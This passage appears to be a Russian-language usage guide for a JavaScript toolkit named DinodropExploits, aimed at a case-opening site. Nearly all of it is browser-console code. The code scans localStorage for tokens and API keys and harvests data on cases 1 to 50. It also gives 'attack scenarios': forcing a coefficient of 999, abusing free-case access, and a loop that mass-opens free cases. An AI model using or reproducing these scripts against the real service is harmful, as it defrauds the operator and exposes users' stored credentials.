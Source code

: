 ### Анализ локального хранилища

```javascript
// Анализ сохраненных данных
DinodropExploits.Utils.analyzeLocalStorage()

// Поиск токенов и API ключей
DinodropExploits.Utils.findTokens()
```

### Массовый сбор данных

```javascript
// Собрать информацию о кейсах с ID от 1 до 50
await DinodropExploits.AutomationExploit.gatherCaseInfo(1, 50)
```

## 🎯 Конкретные сценарии атак

### Сценарий 1: "Золотой кейс"
Попытка получить дорогие предметы с минимальными затратами:

```javascript
// 1. Найти самый дорогой кейс
const expensiveCase = await DinodropExploits.CaseExploit.getCaseInfo(10)

// 2. Попытаться открыть его с максимальным коэффициентом
await DinodropExploits.CaseExploit.openCaseWithCoefficient(10, 999)

// 3. Если не сработало, попробовать через бесплатный доступ
await DinodropExploits.CaseExploit.openFreeCase(10)
```

### Сценарий 2: "Фарм бесплатных кейсов"
Автоматизированное получение бесплатных предметов:

```javascript
// 1. Включить перехват запросов для мониторинга
DinodropExploits.Utils.interceptNetworkRequests()

// 2. Найти все доступные бесплатные кейсы
const freeCases = [];
for(let i = 1; i <= 20; i++) {
    const caseInfo = await DinodropExploits.CaseExploit.getCaseInfo(i);
    if(caseInfo && caseInfo.free_available) {
        freeCases.push(i);
    }
}

// 3. Открыть все найденные бесплатные кейсы
await DinodropExploits.AutomationExploit.massOpenFreeCases(freeCases, 1000)
```
